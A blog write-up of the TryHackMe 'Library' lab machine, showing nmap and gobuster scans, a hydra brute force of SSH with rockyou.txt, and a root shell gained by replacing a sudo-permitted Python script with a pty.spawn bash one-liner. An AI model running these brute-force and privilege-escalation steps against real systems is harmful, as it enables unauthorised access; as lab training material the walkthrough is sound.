 ```yaml
---
published: true
image: /assets/img/logo/library.png
headline: Library is the next easy machine from tryhackme
categories:
  - Machine-Writeup
  - Tryhackme
title: 'Library [TryHackMe]'
---
```

![Desktop View](/assets/img/sample/Library/5.png)

Hello guys, This is the next easy machine from [Tryhackme](https://tryhackme.com/), Name is [Library](https://tryhackme.com/room/bsidesgtlibrary)

# [](#header-2)Nmap Scan

```
# Nmap 7.80 scan initiated Mon Jun 29 03:11:14 2020 as: nmap -sC -sV -oN nmap 10.10.147.65
Nmap scan report for 10.10.196.76
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 29 03:11:44 2020 -- 1 IP address (1 host up) scanned in 30.94 seconds

```

Only port 22 and port 80 ,Let's go into browser 

# [](#header-2)Web 

![Desktop View](/assets/img/sample/Library/1.png)

# [](#header-2)Directory Scan

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# gobuster dir -u http://10.10.147.65 -w /opt/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.147.65
[+] Threads:        10
[+] Wordlist:       /opt/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/29 03:40:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.html (Status: 200)
[ERROR] 2020/06/29 03:42:28 [!] Get http://10.10.147.65/pop: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/29 03:43:37 Finished
===============================================================
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

I checked in `robots.txt`

![Desktop View](/assets/img/sample/Library/2.png)

So may be `rockyou` is the hint for us , after some enumerating in website

I found the author name is `meliodas`

![Desktop View](/assets/img/sample/Library/3.png)

So I start cracked ssh password with `rockyou.txt`

CMD: `hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh`

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-29 03:16:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.147.65:22/
[STATUS] 105.00 tries/min, 105 tries in 00:01h, 14344298 to do in 2276:53h, 16 active
[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-29 03:18:36
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

`[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1`

After some times , I got ssh's password `i*******1`. Let's dig in :)

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# ssh meliodas@10.10.147.65
The authenticity of host '10.10.147.65 (10.10.147.65)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.147.65' (ECDSA) to the list of known hosts.
meliodas@10.10.147.65's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ 
```

```
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
6d488********************35f4ec
meliodas@ubuntu:~$
```

Now we got user flag :). Type `sudo -l`

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$
```

You will see bak.py can run as root, let's check it

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ 
```
Codes are not intersting too much, let's run it

```
meliodas@ubuntu:~$ sudo python bak.py 
[sudo] password for meliodas: 
Sorry, user meliodas is not allowed to execute '/usr/bin/python bak.py' as root on ubuntu.
meliodas@ubuntu:~$
```

It's said meliodas not allowed to execute as root, But you can execute like this

`sudo python /home/meliodas/bak.py`

```
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
meliodas@ubuntu:~$
```
So I removed this file and create a new file with the same name like this

`echo 'import pty;pty.spawn("/bin/bash")' > bak.py`

And then run it again 

```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? yes
meliodas@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
root@ubuntu:~# ls
bak.py  user.txt
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt
e8c8*******************0488c617
root@ubuntu:/root#
```

Now we got root flag  and owned machine :) 

thanks for reading 

![Desktop View](/assets/img/sample/Library/4.png)

[Enjoy :)]()

<script src="https://tryhackme.com/badge/97569"></script>
